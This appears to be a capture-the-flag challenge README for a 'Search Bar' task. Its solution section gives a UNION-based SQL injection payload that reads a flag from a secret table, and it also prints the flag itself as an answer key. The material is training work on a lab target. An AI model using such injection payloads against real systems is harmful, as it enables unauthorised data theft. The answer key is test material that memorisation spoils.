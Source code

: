 # Search Bar

## Question Text
> Warning: This is an  Advanced Challenge. Attempt only if you have completed everything else  

I heard the admins discussing that the flag is in secret table. I wonder whether I can get it.
`http://chal.gryphonctf.com:8002`

## Setup Guide
Run `./build.sh`

## Solution
This challenge has a SQL Injection vulnerability.
To retrieve the flag, type the following line into the query field.
```' UNION SELECT 1, flag FROM secret--```

### Flag
`MC{SQl_Inj3cti0n_isn7_s0_h4rd_af7er_a11}`


## Recommended Reads
1. https://en.wikipedia.org/wiki/SQL_injection
2. https://www.w3schools.com/sql/sql_injection.asp
3. https://www.owasp.org/index.php/SQL_Injection


